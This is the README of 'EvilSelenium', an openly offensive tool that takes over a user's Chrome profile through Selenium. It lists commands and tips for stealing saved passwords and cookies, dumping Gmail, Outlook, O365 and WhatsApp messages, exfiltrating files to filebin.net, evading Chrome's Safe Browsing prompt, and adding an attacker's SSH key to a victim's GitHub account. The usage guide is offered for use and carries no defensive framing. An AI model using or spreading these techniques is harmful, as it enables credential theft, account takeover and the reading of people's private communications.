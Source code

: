 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome. The current features right now are:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Download files from the user's GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which has the passwords & active sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - I pre-built credential stealer templates for common websites. I'll continue to add more.

`/dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`/dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`/dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.

`/download` - Download a file & specify time to wait for the download. A non-executable file extension should be appended to the file before downloading to avoid Chrome's Safebrowsing prompt.

`/exfil` - Uploads a file on filebin.net & specify the time to wait for the upload to complete. Once the upload is completed the file's download link is written.

`/gmail` - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.

`/outlook` - Fetches emails from Outlook if user is authenticated.

`/o365` - Fetches emails from O365 Outlook if user is authenticated.

`/github` - Add your SSH key to Github if user is authenticated.

`/whatsapp` - Fetches Whatsapp messages if user is authenticated (BETA).
